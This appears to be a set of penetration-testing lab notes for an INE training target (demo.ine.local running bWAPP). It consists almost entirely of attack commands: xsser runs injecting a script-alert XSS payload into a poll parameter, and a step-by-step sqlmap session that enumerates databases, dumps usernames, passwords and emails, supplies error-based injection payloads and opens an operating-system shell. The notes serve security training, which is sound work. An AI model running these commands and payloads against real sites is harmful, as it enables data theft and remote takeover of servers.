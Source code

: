```html
http://demo.ine.local/index.php?page=user-poll.php&csrf-token=&choice=nmap&initials=d&user-poll-php-submit-button=Submit+Vote
```
```bash
xsser --url "http://demo.ine.local/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=d&user-poll-php-submit-button=Submit+Vote"
xsser --url "http://demo.ine.local/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=d&user-poll-php-submit-button=Submit+Vote" --Fp "<script>alert(1)</script>"
http://demo.ine.local/index.php?page=user-poll.php&csrf-token=&choice=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&initials=d&user-poll-php-submit-button=Submit+Vote
```

------------

**SQL Injection**
```bash
ping demo.ine.local
ifconfig
sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title
Do you want to skip test payloads specific to other DBMSes? y
Do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] n
Do you want to keep testing the others (if any)? [y/N] y
sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title --dbs
sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title --dbs -D bWAPP --tables
sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title --dbs -D bWAPP --tables -T users --columns
sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title --dbs -D bWAPP --tables -T users -C admin,password,email --dump
Do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] n
Do you want to crack them via a dictionary-based attack? [Y/n/q] n

sqlmap -r request -p title
Do you want to skip test payloads specific for other DBMSes? [Y/n] y
Do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] n
Do you want to keep testing the others (if any)? [y/N] n
title=Hello' AND (SELECT 9239 FROM(SELECT COUNT(*),CONCAT(0x717a787071,(SELECT (ELT(9239=9239,1))),0x7162627171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'avHv'='avHv&action=search
title=Hello' AND (SELECT 9239 FROM(SELECT COUNT(*),CONCAT(version(),(SELECT (ELT(9239=9239,1))),0x7162627171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'avHv'='avHv&action=search
sqlmap -r request -p title --os-shell
which web application language does the webserver support?: 4
do you want sqlmap to further try to provoke the full path disclosure? y
Got a 302 redirect to 'http://demo.ine.local:80/login.php'. Do you want to follow? y
Redirect is a result of a POST request. Do you want to resend the original POST data to a new location? n
what do you want to use for the writable directory?: 4
```
